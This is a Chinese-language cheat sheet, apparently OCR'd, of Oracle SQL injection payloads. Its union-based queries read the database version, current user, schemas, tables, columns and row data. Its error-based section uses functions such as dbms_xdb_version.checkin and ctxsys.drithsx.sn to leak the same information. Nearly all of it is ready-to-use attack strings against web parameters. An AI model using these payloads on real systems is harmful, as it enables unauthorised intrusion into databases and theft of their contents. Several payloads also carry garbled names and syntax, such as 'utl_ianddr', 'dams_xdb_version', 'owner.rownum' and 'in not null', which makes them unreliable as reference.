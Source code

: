 ```
```



### **Oracle_联合查询**

```Oracle
# 判断注入类型
?id=1'"\ 或 and 1=0, and 1=1
# 判断字段数
?id=1 order by 4 
# 判断显示位, 和MySQL不同, Oracle判断显示位时需要使用 null, 而且最后必须跟上 from dual 
?id=1 union select null, null, null, null from dual
# 判断显示位类型
?id=1 union select 1,'a',3,4 from dual
# 查看当前数据库 实例 
?id=1 union select 1, (select instance_name),3,4 from dual --
# 查看数据库版本
?id=1 union select 1,banner,3,4 from v$version where rownum = 1
# 查看当前连接的用户
?id=1 union select 1,user,3,4 from dual where rownum = 1
# 查看所有数据库 limit = 1 数字变换, 查看下一个数据库名
?id=1  union select 1,(select owner from (select owner.rownum as limit from (select distinct(owner) from sys.all_tables)) where limit = 1),3,4 from dual
# 查看指定库表
?id=1 union select 1,table_name,3,4 from (select table_name,rownum as limit from (select table_name from all_tables where owner = '库名')) where limit = 1
# 查看字段
?id=1 union select 1,column_name,3,4 from (select column_name,rownum as limit from (select column_name from all_tab_columns where table_name = '表名')) where limit = 1
# 查看数据
?id=1 union select 1,"字段1"||%27~%27||"字段2",3,4 from 库名.表名
# 第二种写法 查看所有数据
?id=1 union select 1,data,3,4 from (select
data,rownum as limit from (select "字段1"||%27~%27||"字段2"||%27~%27||"字段3"||%27~%27||"字段4" as data from 库名.表名)) where limit = 1
```

### **Oracle_报错注入**

```
# 一共有 7 个报错函数
# 1. 查看当前连接的用户
?id=1 and (select dbms_xdb_version.checkin(sys_context('userenv','current_user')) from dual) in not null
# 2. 查看主机名
?id=1 and utl_ianddr.get_host_name(sys_context('userenv', current_user)) = 1
# 3.
?id=1 and ctxsys.drithsx.sn(sys_context('userenv', 'current_user')) = 1
# 4.
?id=1 and ordsys.ord_dicom.getmappingxpath(sys_context('userenv', current_user)) = 1
# 5.
?id=1 and (select dbms_xdb_version.uncheckout(sys_context('userenv', current_user)) from dual) is not null
# 6.
?id=1 and (select dams_xdb_version.makeversioned(sys_context('userenv', 'current_user')) from dual) is not null
# 7.
?id=1 and (select dbms_utility.sqlid_to_sqlhash(sys_context('userenv', 'current_user')) from dual) is not null

# 爆库
?id=1 and (select dbms_xdb_version.checkin((select owner from (select owner,rownum as limit from (select distinct(owner) from all_table)) where limit = 1)) from dual) is not null
# 爆表
```